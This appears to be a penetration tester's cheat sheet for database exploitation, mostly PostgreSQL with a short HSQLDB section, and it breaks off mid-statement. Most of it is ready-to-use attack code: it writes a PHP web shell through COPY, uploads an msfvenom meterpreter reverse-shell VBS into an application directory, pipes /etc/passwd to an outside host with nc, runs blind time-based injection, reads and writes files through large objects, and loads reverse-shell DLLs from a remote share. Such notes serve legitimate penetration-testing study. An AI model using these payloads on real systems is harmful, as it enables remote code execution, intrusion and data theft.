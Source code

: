 	Create File:  CREATE TABLE mytable (mycol text); INSERT INTO mytable(mycol) VALUES ('<?php passthru($_GET[cmd]); ?>'); COPY mytable (mycol) TO '/tmp/test.php'; 
	    Or:  COPY (SELECT $$abc$$) to $$c:\\abc.txt$$;
	    Reverse Shell Upload (use POST, with one-liner payload base64 encoded, then URL encoded):  copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
		Payload:  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
	    Method 2:  see large object method
	Run Command:  CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; SELECT system('cat /etc/passwd | nc 10.0.0.1 8080');
	Time Delay:  SELECT pg_sleep(10);
	Base64 Encoding:  select convert_from(decode('YWJj==', 'base64'), 'utf-8');
	Hex Encoding and Concatenation:  SELECT CHR(117) || CHR(115) || CHR(101) || CHR(114);   \\same as SELECT user;
	Substitute for Quotes:  SELECT 'user';  =  SELECT $$user$$;  =  SELECT $TAG$user$TAG$;
	    ex. CREATE TEMP TABLE mytable(mycolumn text);INSERT INTO mytable(mycolumn) VALUES ($$test$$); COPY mytable(mycolumn) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;
	Blind Time-Based:
	    SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
	    Reading File:  create+temp+table+ABC+(content+text);copy+ABC+from+$$c:\ABC.txt$$;select+case+when(ascii(substr((select+content+from+ABC),1,1))=104)+then+pg_sleep(10)+end;--+
	Large Objects:
	    select lo_import('C:\\Windows\\win.ini', 1337);	//load file into memory
	    select loid, pageno from pg_largeobject;	//file is divided into 2kb 'pages' in the table
	    select loid, pageno, encode(data, 'escape') from pg_largeobject;
	    update pg_largeobject set data=decode('77303074', 'hex') where loid=1337 and pageno=0;	//update each page individually
	    select lo_export(1337, 'C:\\new_win.ini');	//resave as new file
	    SELECT lo_unlink(1337);	//delete LO from memory
	Loading Extensions (User-Defined Functions):
		CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.1.1\myshare\exec.dll$$, $$execFunc$$ LANGUAGE C STRICT;
                SELECT remote_test($$calc.exe$$, 3);
		CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$\\\\192.168.119.158\\awae\\rev_shell.dll$$,$$connect_back$$ LANGUAGE C STRICT;
		SELECT rev_shell($$192.168.1.1$$, 4444);
		Base64 Insert:
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
			INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
		Hex Insert:  update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0; 

### HSQLDB Interaction:
	Download .jar and connect:  java -cp hsqldb.jar org.hsqldb.util.DatabaseManagerSwing --url jdbc:hsqldb:hsql://abc:9001/app --user abc --password abc
	RCE - calling Java code via custom procedures:
		ex. Checking system properties:
                    CREATE FUNCTION systemprop(IN key VARCHAR) RETURNS VARCHAR 
                     LANGUAGE JAVA 
                     DETERMINISTIC NO SQL
                     EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
                    Call it:  VALUES(systemprop('java.class.path'))
		Use Function in the App's Class Path (ex. a write file function):
                    CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte 
                    VARBINARY(1024)) 
                     LANGUAGE JAVA 
                    DETERMINISTIC NO SQL
                     EXTERNAL NAME 